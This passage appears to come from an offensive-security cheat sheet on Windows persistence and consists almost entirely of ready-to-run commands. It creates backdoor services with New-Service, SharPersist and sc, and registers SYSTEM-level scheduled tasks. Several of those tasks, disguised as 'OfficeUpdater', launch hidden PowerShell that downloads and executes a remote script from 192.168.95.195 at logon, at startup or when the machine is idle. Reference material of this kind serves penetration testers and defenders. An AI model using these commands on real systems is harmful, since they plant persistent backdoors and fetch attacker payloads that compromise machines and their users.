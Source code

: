 
### Services Elevated

Create a service that will start automatically or on-demand.

```powershell
# Powershell
New-Service -Name "Backdoor" -BinaryPathName "C:\Windows\Temp\backdoor.exe" -Description "Nothing to see here." -StartupType Automatic
sc start pentestlab

# SharPersist
SharPersist -t service -c "C:\Windows\System32\cmd.exe" -a "/c backdoor.exe" -n "Backdoor" -m add

# sc
sc create Backdoor binpath= "cmd.exe /k C:\temp\backdoor.exe" start="auto" obj="LocalSystem"
sc start Backdoor
```

### Scheduled Tasks Elevated

Scheduled Task to run as SYSTEM, everyday at 9am or on a specific day.

> Processes spawned as scheduled tasks have taskeng.exe process as their parent

```powershell
# Powershell
$A = New-ScheduledTaskAction -Execute "cmd.exe" -Argument "/c C:\temp\backdoor.exe"
$T = New-ScheduledTaskTrigger -Daily -At 9am
# OR
$T = New-ScheduledTaskTrigger -Daily -At "9/30/2020 11:05:00 AM"
$P = New-ScheduledTaskPrincipal "NT AUTHORITY\SYSTEM" -RunLevel Highest
$S = New-ScheduledTaskSettingsSet
$D = New-ScheduledTask -Action $A -Trigger $T -Principal $P -Settings $S
Register-ScheduledTask "Backdoor" -InputObject $D

# Native schtasks
schtasks /create /sc minute /mo 1 /tn "eviltask" /tr C:\tools\shell.cmd /ru "SYSTEM"
schtasks /create /sc minute /mo 1 /tn "eviltask" /tr calc /ru "SYSTEM" /s dc-mantvydas /u user /p password

##(X86) - On User Login
schtasks /create /tn OfficeUpdaterA /tr "c:\windows\system32\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''http://192.168.95.195:8080/kBBldxiub6'''))'" /sc onlogon /ru System
 
##(X86) - On System Start
schtasks /create /tn OfficeUpdaterB /tr "c:\windows\system32\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''http://192.168.95.195:8080/kBBldxiub6'''))'" /sc onstart /ru System
 
##(X86) - On User Idle (30mins)
schtasks /create /tn OfficeUpdaterC /tr "c:\windows\system32\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''http://192.168.95.195:8080/kBBldxiub6'''))'" /sc onidle /i 30
 
##(X64) - On User Login
schtasks /create /tn OfficeUpdaterA /tr "c:\windows\syswow64\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''http://192.168.95.195:8080/kBBldxiub6'''))'" /sc onlogon /ru System
 
##(X64) - On System Start
schtasks /create /tn OfficeUpdaterB /tr "c:\windows\syswow64\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''http://192.168.95.195:8080/kBBldxiub6'''))'" /sc onstart /ru System
 
```